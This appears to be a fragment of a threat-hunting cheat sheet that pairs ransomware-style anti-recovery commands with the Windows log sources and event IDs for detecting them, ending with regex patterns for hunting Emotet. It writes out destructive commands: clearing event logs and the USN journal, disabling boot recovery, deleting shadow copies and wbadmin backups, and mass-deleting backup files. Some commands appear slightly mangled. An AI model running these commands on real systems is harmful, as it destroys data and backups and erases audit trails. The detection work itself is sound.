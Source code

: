 - Delete USN journal
  - ```fsutil usn deletejournal /D C:"```
  - ```wevtutil cl Setup & wevtutil cl System & wevtutil cl Security & wevtutil cl Application & fsutil usn deletejournal /D %c:```

### Disable Recovery

| Category   | Source | Comments |
| -------- | ---------- |---------- |
| Registry | Microsoft-Windows-Sysmon/Operational | EventCode=12-14 |
| Services | System.evtx | EventCode=7036, 7040, 7045 |

- Disable Windows Auto Startup Repair
  - ```shutdown /r /f /t 00```
  - ```bcdedit /set recoveryenabled no```
  - ```bcdedit /set bootstatuspolicy ignoreallfailures```

- Enforce reboot in safemode
  - ```shutdown /r /f /t 00```
  - ```bcdedit.exe /set safeboot minimal```
  - ```reg add HKLM\System\CurrentControlSet\Control\SafeBoot\Minimal\HACKER-service```

### Destroy Backups

| Category   | Source | Comments |
| -------- | ---------- |---------- |
| PowerShell | Microsoft-Windows-PowerShell%4Operational.evtx | Event ID= 4103, 4104 |

- PowerShell
  - ```PowerShell Get-WmiObject Win32_ShadowCopy | Remove-WmiObject```
  - ```PowerShell Get-WmiObject Win32_ShadowCopy | % { _.Delete() }```
  - ```Get-WmiObject Win32_Shadowcopy | ForEach-Object {_.Delete();}```
  - ```Get-ComputerRestorePoint | delete-ComputerRestorePoint```

- Vssadmin.exe
  - ```vssadmin.exe delete shadows /All /Quiet```
  - ```vssadmin.exe resize shadowstorage /for=D: /on=D: /maxsize=401MB```

- Deleting backups via wbadmin
  - ```wbadmin delete catalog -quiet```
  - ```wbadmin DELETE SYSTEMSTATEBACKUP```
  - ```wbadmin DELETE SYSTEMSTATEBACKUP -deleteOldest```
  
- Deleting backups with del
  - ```del /s /f /q c:*.VHD c:*.bac c:*.bak c:*.wbcat c:*.bkf c:Backup*.* c:ackup*.* c:*.set c:*.win c:*.dsk```

## Hunting for Emotet

- Downloaders often download Emotet as 2-3 digit EXE names: ```.*[\\\/]\d{2,3}\.exe```
- Stage 1 often drops PE files with 8-10 digit names into Windows directory: ```.:\\Windows\\[0-9]{8,10}\.exe```

